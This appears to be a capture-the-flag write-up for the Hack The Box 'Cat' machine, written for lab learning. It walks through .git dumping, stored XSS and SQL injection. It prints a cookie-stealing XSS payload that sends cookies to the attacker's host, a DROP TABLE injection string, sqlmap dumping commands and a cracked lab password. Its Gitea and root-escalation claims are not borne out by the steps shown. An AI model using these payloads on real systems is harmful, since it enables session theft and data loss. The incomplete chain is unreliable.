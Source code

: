 ```yaml
---
title: Cat - Hack The Box Writeup
date: 2025-02-11
categories: [CTF, Writeups, HTB]
tags: [htb, linux, rce, lfi, stored-xss, privilege-escalation, gitea]
image:
  path: https://blog.n0va.in/assets/images/htb-cat.jpg

  description: A detailed walkthrough of the Cat HTB machine, showcasing exploitation of stored XSS, SQL injection, and Gitea vulnerabilities.
author: issue403
---
```


## Nmap Recon and Initial Enumeration

To begin our reconnaissance, we run an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sV 10.10.11.53 -T5 -Pn
```

The scan results reveal that Port 22 (SSH) and Port 80 (HTTP) are open.

Next, we attempt to access the website by entering the machine’s IP address in a browser. Instead of a standard page, we notice that the hostname `cat.htb` is referenced. To resolve this domain locally, we add it to our `/etc/hosts` file:

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

With this update, we can now access `cat.htb` in our browser to further explore potential attack vectors.

## Exploring the Application

Before diving deeper, let’s explore the application to get an overall idea.

The website appears to be a community page for cat lovers, featuring a voting system. On further inspection, we find a voting section:

![Voting Section](https://blog.n0va.in/assets/images/Pasted%20image%2020250203031230.png)

However, voting is currently closed. This suggests that additional functionalities might be accessible after logging in.

### Checking Cookies

Even before logging in, we notice that the application assigns cookies to our session:

```bash
Cookie: session=xyz123
```

### Logging In

After logging in, we gain access to more features, including the ability to participate in contests. Interestingly, there is also a file upload option, which could potentially lead to Remote Code Execution (RCE)—something worth investigating further.

## Subdomain & Directory Enumeration

Meanwhile, we check for subdomains but find nothing significant. Next, we perform directory enumeration using `dirsearch` with a default wordlist:

```bash
dirsearch -u http://cat.htb/
```

During enumeration, we discover a `.git` directory:

```bash
[200] GET /.git/
```

### Extracting .git Repository

To leverage this, we use a tool called `git-dumper`, which helps automate the extraction of `.git` repositories. This tool checks if directory listing is enabled and recursively downloads the `.git` contents for further analysis:

```bash
git-dumper http://cat.htb/.git ./cat_source
```

### Reviewing Extracted Source Code

After extracting the `.git` directory, we now have access to a large portion of the source code. This provides us with a deeper understanding of the application’s structure and potential vulnerabilities.

## Identifying Vulnerabilities

### 1. Stored XSS in Registration (`join.php`)

Upon reviewing `join.php`, we notice an unsanitized user input being directly stored in the database during registration:

```php
// Vulnerable registration code
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];  //  Unsanitized input
    $email = $_GET['email'];        //  Unsanitized input

    $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
    $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);
}
```

Here, the `username` and `email` fields are not sanitized or validated before being stored in the database. This allows an attacker to inject Stored XSS payloads.

**Example Attack:**

An attacker could register with the following username:

```bash
<script>alert(document.cookie)</script>
```

Since the input is stored in the database without sanitization, whenever this username is displayed, the malicious script executes, potentially stealing cookies from other users.

### 2. SQL Injection in `accept_cat.php`

Analyzing `accept_cat.php`, we find another major vulnerability: SQL Injection due to direct user input in SQL queries.

```php
// VULNERABLE CODE:
$cat_name = $_POST['catName'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Here’s why this is dangerous:

1. `$cat_name` is not sanitized before being used in the SQL query.
2. String concatenation is used, making it prone to SQL injection attacks.
3. `exec()` is used instead of prepared statements, leaving the application exposed.

**Example Attack:**

An attacker could send a POST request with:

```bash
catName = '); DROP TABLE accepted_cats; --
```

This would result in the following SQL query execution:

```sql
INSERT INTO accepted_cats (name) VALUES (''); DROP TABLE accepted_cats; --')
```

If executed, this would delete the entire `accepted_cats` table, causing major data loss.

## Exploitation

### Stealing Admin Cookies via Stored XSS

From our earlier findings, we know that the admin (Axel) reviews contest submissions. When he does, the malicious username is displayed, and the payload is executed.

Payload:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Start a web server to capture the cookie:

```bash
python3 -m http.server 1111
```

Once Axel reviews the submission, his cookie is sent to our server:

```bash
GET /?c=admin-session-cookie HTTP/1.1
```

Using the admin cookie, we access the admin panel and exploit the SQL injection in `accept_cat.php` to dump the database.

### Database Dump with SQLmap

Copy the vulnerable request and save it in a file, then run SQLmap:

```bash
sqlmap -r request.txt --dump
```

From the database dump, we retrieve password hashes for multiple users. Cracking the hashes reveals valid credentials for `rosa`:

```bash
rosa:soyunaprincesarosa
```

### Privilege Escalation

While exploring the machine as `rosa`, we check the Apache logs and discover Axel’s SSH credentials:

```bash
cat /var/log/apache2/access.log
```

Using these credentials, we log in as `axel` and retrieve the root flag.

---

This concludes the walkthrough for the Cat HTB machine. We exploited stored XSS, SQL injection, and misconfigured Git repositories to gain full access to the machine. Happy hacking!

